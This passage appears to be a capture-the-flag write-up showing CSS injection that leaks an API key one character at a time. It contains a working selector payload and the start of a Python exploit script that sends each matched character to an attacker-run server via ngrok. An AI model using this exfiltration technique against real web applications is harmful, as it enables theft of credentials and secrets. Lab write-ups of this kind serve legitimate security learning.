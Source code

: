 By brute-forcing each character, we can make the page send requests to our server depending on the value of an element. It sounds crazy, but it actually works.

The last piece of the puzzle is knowing which element to exfiltrate. Let’s take another look at the code.

![](/assets/posts/Stylish-Boss/Stylish-Boss,-8.png)

Sure enough, there’s an interesting element in the page that stores the `apiKey`. This means we can exfiltrate the Boss’s API key.

plan is simple css injection charecter per charecter

that's the payload that I found working 

```python
payload = f"';#api-key-container[data-internal-api-key^=\"{candidate}\"] { remove this {background-image: url(\"{LOCAL_SERVER}/{candidate}\")}  remove this};"
```


and that's the entire script to get the key
```python
import requests
import string
import threading
import http.server
import socketserver
import queue
import time

# Target server
TARGET = "http://51.21.169.15:3001"
SET_FONT_URL = f"{TARGET}/set-font"
REPORT_URL = f"{TARGET}/report"

# Your token
COOKIE = "token=Your-token"

USERNAME = "enter-your-username"
# Charset to brute-force
charset = string.ascii_lowercase + string.digits

# Local server to receive exfiltrated character
LOCAL_HOST = "0.0.0.0"
LOCAL_PORT = 80
LOCAL_SERVER = f"NGROK"   # <- put your real IP or ngrok domain here

# Thread-safe queue to capture hits
hits = queue.Queue()

class ExfilRequestHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        # Path looks like: /candidateprefix
        candidate = self.path.strip("/")
        if candidate:
            print(f"[+] Hit detected: {candidate}")
```